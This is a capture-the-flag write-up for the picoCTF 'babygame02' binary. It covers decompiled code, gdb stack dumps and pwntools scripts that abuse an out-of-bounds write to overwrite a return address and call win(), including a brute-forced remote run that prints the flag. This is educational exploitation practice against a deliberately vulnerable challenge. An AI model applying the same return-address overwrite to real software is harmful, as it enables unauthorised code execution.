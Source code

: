 ### babygame02

Download the file and open it in a decompiler. We can see that there is a `win()` function that prints the flag, but it's not called anywhere.

```c
void win(void)

{
  char local_4c [60];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("flag.txt not found in current directory");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_4c,0x3c,local_10);
  printf(local_4c);
  return;
}
```

Taking a look at the `move_player()` function:

```c
void move_player(int *param_1,char param_2,int param_3)

{
  int iVar1;
  
  if (param_2 == 'l') {
    iVar1 = getchar();
    player_tile = (undefined)iVar1;
  }
  if (param_2 == 'p') {
    solve_round(param_3,param_1);
  }
  *(undefined *)(*param_1 * 0x5a + param_3 + param_1[1]) = 0x2e;
  if (param_2 == 'w') {
    *param_1 = *param_1 + -1;
  }
  else if (param_2 == 's') {
    *param_1 = *param_1 + 1;
  }
  else if (param_2 == 'a') {
    param_1[1] = param_1[1] + -1;
  }
  else if (param_2 == 'd') {
    param_1[1] = param_1[1] + 1;
  }
  *(undefined *)(*param_1 * 0x5a + param_3 + param_1[1]) = player_tile;
  return;
}
```

Like the previous game, it moves the player around the map with `wasd`. We can also change the player's tile with `l`. This will be useful because it's a `32-bit` binary, and we see that the address of `win` is `0x0804975d`.

The `main` function is like this:

```c
undefined4 main(void)

{
  int iVar1;
  int local_aa8;
  int local_aa4;
  undefined local_a9d [2700];
  char local_11;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  init_player(&local_aa8);
  init_map(local_a9d,&local_aa8);
  print_map(local_a9d,&local_aa8);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      local_11 = (char)iVar1;
      move_player(&local_aa8,(int)local_11,local_a9d);
      print_map(local_a9d,&local_aa8);
    } while (local_aa8 != 0x1d);
  } while (local_aa4 != 0x59);
  puts("You win!");
  return 0;
}
```

We see that there is a `2700` byte buffer and with move player we can trigger an `out-of-bounds` bug and write things on the stack. Our exploitation path is to:

* Change player's tile to `0x5d` which is the last byte of `win`.
* Move out of the buffer to overwrite the return address to call `win`.

Taking a better look at thus line inside `move_player`:

```c
*(undefined *)(*param_1 * 0x5a + param_3 + param_1[1]) = player_tile;
```

So, we need to overwrite the address of `param_1` * `0x5a`  + `param_3` + `param_1[1]` to change it to the player tile, which will be the address of `win`, or at least the last byte of it.

Analyzing these 3 params:

* `param_1` -> Pointer to the buffer, the Y axis.
* `param_3` -> The buffer.
* `param_1[1]` -> Pointer to the buffer, the X axis.

We see that the address of the buffer is at `$ebp-0xaa0`. 

```bash
0x8049694 <main+32>        lea    eax, [ebp-0xaa0]

gef➤  x/2gx $ebp-0xaa0
0xffffc588:	0x0000000000000000	0x0000000100030003
```

Let's play a bit with the binary and see how it reacts.

First, we rename our tile to "A". Then, we place it at the start of the buffer.

```bash
Player position: 0 0
End tile position: 29 89
A.........................................................................................
...........................
```

```gdb
gef➤  x/100gx $ebp-0xaa0-32
0xffffc568:	0x08049709ffffd028	0x0000000affffc588
0xffffc578:	0x080496ebffffc593	0x03010101464c457f
0xffffc588:	0x0000000000000000	0x2e2e2e2e41030003 <-- here
```

If we go left with `a`. Our `41` will go there:

```gdb
gef➤  x/100gx $ebp-0xaa0-32
0xffffc568:	0x08049709ffffd028	0x00000061ffffc588
0xffffc578:	0x080496ebffffc593	0x03010101464c457f
0xffffc588:	0xffffffff00000000	0x2e2e2e2e2e410003 <-- here
```

One more `a`.

```gdb
gef➤  x/100gx $ebp-0xaa0-32
0xffffc568:	0x08049709ffffd028	0x00000061ffffc588
0xffffc578:	0x080496ebffffc593	0x03010101464c457f
0xffffc588:	0xfffffffe00000000	0x2e2e2e2e2e2e4103 <-- here
```

What if we send 2 `aa` in a row?

```gdb
gef➤  x/100gx $ebp-0xaa0-32
0xffffc568:	0x08049709ffffd028	0x00000061ffffc588
0xffffc578:	0x080496ebffffc593	0x03010101464c457f
0xffffc588:	0x41fffffc00000000	0x2e2e2e2e2e2e2e2e <-- here
```

We understood how it moves with the `left-right` keys. Now we position it again at the start of the buffer and go up.

```gdb
gef➤  x/100gx $ebp-0xaa0-32
0xffffc568:	0x08049709ffffd028	0x0000000affffc588
0xffffc578:	0x080496ebffffc593	0x03010101464c457f
0xffffc588:	0x0000000000000000	0x2e2e2e2e41030003 <-- here before w
```

```gdb
gef➤  x/100gx $ebp-0xaa0-128
0xffffc508:	0xf7e2a620ffffc538	0xf7e2a000f7e28a60
0xffffc518:	0xf7c7f9f0ffffc578	0xf7ffcb80f7e2a620
0xffffc528:	0xf7c7f6c000000059	0xf7e2ae40f7e2ae40
0xffffc538:	0xf7c79b29f7e24120	0x0804c000f7e2a620 <-- here
0xffffc548:	0x08049481ffffc568	0x0804c000080482cc
0xffffc558:	0x000000770000005a	0xffffd0f40804c000
0xffffc568:	0x08049709ffffd028	0x00000077ffffc588
0xffffc578:	0x080496ebffffc593	0x03010101464c457f
0xffffc588:	0x00000000ffffffff	0x2e2e2e2e2e030003
```

We send another `d` to move it right and verify it is our value and not just a random byte.

```gdb
0xffffc538:	0xf7c79b29f7412e20	0x0804c000f7e2a620
```

This is indeed our value.

#### Recap

* `a-d` will move our byte to the left-right.
* `w` will move our byte 5 rows up and 7 bytes from the start. (92 bytes in total)
* We know the return value of `move_player` is at `0x08049548`.

We need to modify our tile to overwrite this byte with `]` which is the character of `5d`, the last byte of win.

The return address of `move_payer` points to this.

```bash
 →  0x8049548 <move_player+212> ret    
   ↳   0x8049709 <main+149>       add    esp, 0x10
```

We can see this address before our buffer here:

```gdb
0xffffc568:	0x08049709ffffd028	0x00000077ffffc588 <-- here
0xffffc578:	0x080496ebffffc593	0x03010101464c457f
0xffffc588:	0x0000000400000003	0x2e2e2e2e2e030003
0xffffc598:	0x2e2e2e2e2e2e2e2e	0x2e2e2e2e2e2e2e2e
```

We need to do some proper calculations to place our player in the right position.

This solver works locally, but not remotely.

```python
from pwn import *
context.log_level = 'critical'

r = process('./game')

# Change tile to our value
r.sendlineafter(b'\n', b'l]')
r.sendlineafter(b'\n', b'd'*47)
r.sendlineafter(b'\n', b'w'*5)
r.sendlineafter(b'\n', b'w3t')

r.interactive()
```

```bash
.........................................................................................X
flag.txt not found in current directory
```

I guess the address is different in the remote server, so will try to change our character from `]` to something else. Starting bruteforcing, the luck is with us because `a` works.

```python
from pwn import *
context.log_level = 'critical'

r = remote('saturn.picoctf.net', 52450)

# Change tile to our value
r.sendlineafter(b'\n', b'la')
r.sendlineafter(b'\n', b'd'*47)
r.sendlineafter(b'\n', b'w'*5)
r.sendlineafter(b'\n', b'w3t')

r.interactive()
```

```bash
picoCTF{gamer_jump1ng_4r0unD_ed4bea03}
```





